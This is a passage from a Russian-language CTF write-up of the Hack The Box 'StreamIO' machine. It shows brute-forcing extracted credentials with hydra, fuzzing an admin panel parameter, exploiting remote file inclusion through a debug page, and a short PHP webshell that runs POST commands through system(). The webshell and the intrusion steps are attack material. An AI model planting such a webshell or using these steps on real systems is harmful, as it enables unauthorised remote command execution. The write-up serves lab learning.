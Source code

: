![592aeee1a72f02cb12b5a9549af4f4ae.png]({{ site.baseurl }}/images/592aeee1a72f02cb12b5a9549af4f4ae.png)

Затем я убрал сам хэш и оставил только логины и пароли с помощью awk, чтобы проверить эти учетные данные на `streamio.htb/login.php`

`awk -F ":" '{print $1 ":" $3}' user_pass.txt`

Мы можем использовать hydra, чтобы проверить, сможем ли мы за логиниться. 

![64d434c8ddd0c9504bc51f316909db44.png]({{ site.baseurl }}/images/64d434c8ddd0c9504bc51f316909db44.png)

***

## Эксплуатируем админ панель

После успешного логина на streamio.htb, мы получаем доступ к странице /admin, ранее недоступной для нас.

Давайте попробуем перебрать каталоги.

Мы видим, что параметр в url, похоже, указывает на страницы, поскольку он меняется всякий раз, когда мы нажимаем на другой раздел.

![78a8ea1dfb22cd16f09c268e2c3dbf3c.png]({{ site.baseurl }}/images/78a8ea1dfb22cd16f09c268e2c3dbf3c.png)

Мы можем по фаззить этот параметр чтобы найти другие страницы

![112166403e09e9efa18269f9e0b2f93c.png]({{ site.baseurl }}/images/112166403e09e9efa18269f9e0b2f93c.png)

То, что мы еще не видели, - это страница отладки *(debug)*, давайте посмотрим на это.

Если мы передадим в параметр дебаг, значение master.php, страницу которую мы нашли ранее на этапе разведки, то увидим страницу, которая ранее была нам недоступна, поскольку ее можно было только инклюдить. Похоже, что она  содержит код для всех остальных вкладок.

![3d513b30a4ac2ad0511e673f5642dcbb.png]({{ site.baseurl }}/images/3d513b30a4ac2ad0511e673f5642dcbb.png)

Если открыть страницу в HTML виде мы можем найти интересную форму, которая не отображается как вкладка, она содержит параметр *'include'* :

![31a37e96866effbf048abf873c03f74f.png]({{ site.baseurl }}/images/31a37e96866effbf048abf873c03f74f.png)

Это означает, что если мы сделаем post-запрос к странице debug с параметром include, мы сможем включить произвольные файлы, а если доступен удалённый инклюд файлов, мы сможем загрузить веб шелл PHP.

![0608b28006f586db588837cd5895125b.png]({{ site.baseurl }}/images/0608b28006f586db588837cd5895125b.png)
![829bbb9785f40eca1e0236d9a92a997d.png]({{ site.baseurl }}/images/829bbb9785f40eca1e0236d9a92a997d.png)

О чудо, сервер инклюдит удалённые файлы, давайте организуем шелл.

## Удалённое выполнение команд

Webshell content:
```php

    if(isset($_POST['cmd']))
    {
        system($_POST['cmd']);
    }

```
